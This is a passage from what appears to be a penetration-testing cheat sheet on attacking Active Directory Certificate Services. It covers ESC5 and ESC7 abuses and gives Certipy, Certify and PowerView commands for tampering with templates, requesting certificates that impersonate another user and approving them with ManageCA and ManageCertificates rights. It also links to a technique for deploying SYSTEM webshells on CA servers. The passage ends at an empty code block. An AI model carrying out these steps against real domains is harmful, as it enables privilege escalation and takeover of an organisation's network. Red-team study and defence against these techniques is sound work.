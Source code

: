 ````
certipy template -u <USER> -hashes <NTLM HASH> -template <TEMPLATE NAME> -configuration '<JSON>.json'
```

### ESC5 Vulnerable PKI Object ACEs
- Such as AD CS computer object or Containers
	- Compromising the CA's server's computer object using RBCD or Shadow Credentials
	- ACLs misconfigured to a descendant AD object (Certificate template, Certificate Authorities container, the NTAuthCertificates subject)

#### RBCD or Shadow Credentials
- [RBCD](#Computer-object-takeover)
- [Shadow Credentials](#Permissions-on-a-ComputerObject)

### ESC7 Vulnerable CA ACL
- A low privilege user is granted the ManageCA (CA Administrator) and ManageCertificates (Certificate Manager) rights over the CA.
- Bypass CBA patch in full enforcement mode:
	- ESC 7.1 Abusing SubCA template to approve a failed request using ManageCertificates rights: https://www.tarlogic.com/blog/ad-cs-esc7-attack
	- ESC 7.2  Abusing CRL Distribution Points (CDPs) and using them to deploy SYSTEM webshells to CA servers respectively: https://www.tarlogic.com/blog/ad-cs-manageca-rce/

### ESC7.1 Failed request
- Requirements:
	- User with `Allow ManageCA and ManageCertificates`
	- `SubCA` template enabled (or enable it). Should be enabled by default but only Domain Admins or Enterprise Admins can enroll by default!

### Windows
#### Check CA for user with permissions
```
.\Certify.exe cas
```

#### Check if SubCA is enabled
```
.\Certify.exe find
```

#### Get SID of user 
```
Get-DomainUser <SAMACCOUNTNAME> | Select-Object samaccountname, objectsid
```

#### Create failed request
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE> /altname:<USER> /domain:<DOMAIN> /sidextension:<TARGET OBJECT SID>
```

#### Save private key
```
notepad esc7.pem
```

#### Approve failed certificate
- https://github.com/blackarrowsec/Certify
	- This fork of Certify requires RSAT ADDS tools installed.
- Requires `ManageCA` and `ManageCertificates` permissions
```
.\Certify-esc7.exe issue /ca:<FQDN CA>\<CA NAME> /id:<REQUEST ID>
```

#### Download approved request
```
````